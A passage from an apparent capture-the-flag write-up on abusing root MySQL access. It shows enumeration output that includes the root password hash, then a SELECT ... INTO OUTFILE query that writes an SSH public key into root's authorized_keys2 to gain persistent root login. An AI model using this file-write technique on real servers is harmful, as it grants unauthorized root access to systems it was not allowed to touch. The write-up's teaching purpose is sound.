 ### Abuse MySQL

#### Enumeration

The MySQL access is as the root user:

```

mysql> select current_user();
+----------------+
| current_user() |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.08 sec)

```

This user has all privileges on all databases in this MySQL instance:

```

mysql> show grants for root@localhost;
+----------------------------------------------------------------------------------------------------------------------------------------+
| Grants for root@localhost                                                                                                              |
+----------------------------------------------------------------------------------------------------------------------------------------+
| GRANT ALL PRIVILEGES ON *.* TO `root`@`localhost` IDENTIFIED BY PASSWORD '*937440AD99CBB4A102402708AA43B689818489C8' WITH GRANT OPTION |
| GRANT PROXY ON ''@'%' TO 'root'@'localhost' WITH GRANT OPTION                                                                          |
+----------------------------------------------------------------------------------------------------------------------------------------+
2 rows in set (0.09 sec)

```

#### Write File

With all privs comes the privilege to write files. I could solve the intended path this was as well, once getting to MySQL.

I’ll try writing my SSH public key (I like ed25519 keys since they are very short) to root’s `authorized_keys` file:

```

mysql> select "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" into outfile "/root/.ssh/authorized_keys2";
Query OK, 1 row affected (0.09 sec)

```
